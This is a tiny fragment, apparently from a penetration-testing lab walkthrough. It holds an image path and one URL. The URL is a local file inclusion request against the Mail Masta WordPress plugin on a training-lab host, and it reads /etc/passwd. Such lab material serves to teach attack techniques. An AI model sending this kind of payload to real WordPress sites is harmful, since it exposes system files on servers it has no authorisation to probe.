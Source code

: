 
...
http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd